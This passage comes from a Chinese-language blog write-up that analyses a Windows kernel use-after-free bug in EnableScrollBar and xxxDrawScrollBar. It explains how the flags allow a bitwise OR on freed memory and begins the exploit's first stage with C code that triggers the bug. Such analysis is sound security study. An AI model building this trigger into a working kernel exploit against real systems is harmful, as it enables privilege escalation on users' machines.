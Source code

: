 参数 `wArrows` 则设置滚动条的箭头是否可用，被设置位表示不可用：

```c
#define ESB_ENABLE_BOTH     0x0000
#define ESB_DISABLE_BOTH    0x0003

#define ESB_DISABLE_LEFT    0x0001
#define ESB_DISABLE_RIGHT   0x0002

#define ESB_DISABLE_UP      0x0001
#define ESB_DISABLE_DOWN    0x0002

#define ESB_DISABLE_LTUP    ESB_DISABLE_LEFT
#define ESB_DISABLE_RTDN    ESB_DISABLE_RIGHT
```

以下代码表示如果设置了 `SB_HORZ` 或 `SB_BOTH` 则判断 `wArrow` 是否为 `ENBLAE` 来决定启用或禁用水平滚动条。

![]({{site.baseurl}}/images/2018-11-9/part2.png)

其实漏洞就跟这部分设置有关，让滚动条可见按照一定的设置会触发 `xxxDrawScrollBar` 函数刷新滚动条，
然后可能会触发用户态回调函数。

![]({{site.baseurl}}/images/2018-11-9/part3.png)

不过在讨论回调函数之前，我们先把后面的看完。和设置水平滚动条的逻辑类似，但不同的是如果 `wArrows` 设置了禁用了，
并且前面触发了 uaf 的话，这里就可以对释放后的内存进行一次按位或运算，比如 `wArrows` 为 0x3，而 `tagSBINFO.wSBflags`
为 0x2，那么操作完后值就变为 0xe 了。

![]({{site.baseurl}}/images/2018-11-9/part4.png)

# Stage 1

开发漏洞利用通常需要经历好几个阶段，首先要完成的是如何触发漏洞。

我们已经知道设置怎样的参数可以触发 `xxxDrawScrollBar` 函数，要在代码上实现得在 `CreateWindow`
函数中加上 `WS_HSCROLL` 和 `WS_VSCROLL`，虽然默认窗体是可见的，不过加上 `showWindow` 以防万一，
然后按照设置的参数调用 `EnableScrollBar`。

```c
hwnd = CreateWindow(
    szAppName, 
    TEXT("Poc"),
    WS_OVERLAPPEDWINDOW | WS_HSCROLL | WS_VSCROLL,
    CW_USEDEFAULT,
    CW_USEDEFAULT,
    CW_USEDEFAULT,
    CW_USEDEFAULT,
    NULL, NULL, hInstance, NULL);

ShowWindow(hwnd, iCmdShow);
EnableScrollBar(hwnd, SB_BOTH, ESB_DISABLE_BOTH);
UpdateWindow(hwnd);
```
